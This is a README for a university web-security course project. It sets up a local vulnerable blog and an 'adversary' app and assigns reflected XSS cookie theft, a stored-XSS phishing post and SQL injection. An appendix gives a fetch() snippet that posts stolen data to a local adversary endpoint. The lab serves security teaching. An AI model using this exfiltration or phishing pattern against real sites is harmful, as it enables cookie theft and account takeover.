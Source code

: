 # 🧑‍💻 Cyber-Squad (CPEN 442 Final Project)

## Setting Up the Environment
### Setting up the Database
1.	Install a SQL client. For our project we used the MySQL client which can be installed from here: https://dev.mysql.com/downloads/installer/ 
2.	To create the necessary databases to run the project, we used the MySQL workbench which can be installed from here: https://dev.mysql.com/downloads/workbench/ 
3. Execute the SQL statements shown below in the query terminal on MySQL workbench after connecting to a database. This will create the blog and adversary databases. The necessary tables and initial rows for the tables will be created when the servers for the adversary webpage and blog web page are started.

### Setting up the web servers and the web pages
1.	Download the zip file called web_security_project.zip, and extract the contents
2.	Open the extracted folder in some text editor (ex. VS Code)
3.	In the terminal, run the following commands to install the necessary dependencies to run the web applications.
```
cd frontend; npm install
cd ../blog_web_app; npm install
cd ../adversary_web_app; npm install
```
4.	To run the whole project, you will need to open 4 terminals: \
a.In terminal 1, run: ```cd frontend; npm start```\
b.In terminal 2, run: ```cd blog_web_app; npm start```\
c.In terminal 3, run: ```cd adversary_web_app; npm start ```\
d.In terminal 4, run: ```cd adversary_web_app; node index.js ```
5.	Now, you will able to see the blog site web page at http://localhost:8080 and the adversary web page at  http://localhost:8081 

## The assignment
You will create a web attack for each of these 3 types of attacks: 
### Reflected XSS attack
* Craft a malicious link that can be sent to an unexpecting user such that when they click on their link, their cookies from the CyberSquad Blog website are sent to the adversary database
* Cookies on a web page can be accessed via ```document.cookie```
* The adversary web app has an API endpoint that can be used to send stolen information to the database. Check Appendix B for an example of how to use this API with a fetch request in JavaScript. If you are finding that the fetch request is not being made, try removing all space characters in the fetch request.
### Stored XSS attack
* Craft a malicious blog post that can be used to steal some information from an unexpecting user that loads the blog site
* The approach that we recommend is trying to phish the user and trick them into revealing some sensitive information (such as their password). This does not have to be automatic and can require some user input
### SQL Injection
* Inspect the code base and find a way that you can inject malicious SQL in the web page to perform a malicious action
* This attack does not require you to send some information to the adversary database

Appendix A
SQL statements for creating the blog post database:
CREATE DATABASE blogdb;

SQL statements for creating the adversary database:
CREATE DATABASE adversary_database
Appendix B
fetch('http://localhost:4000/stolenInfo', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({ 'stolen_info': 'test1'}),
        })
        .then(function (response) {response.json()})
        .then(function(data){console.log(data)})
        .catch(function(error) {console.error('Error:', error)});


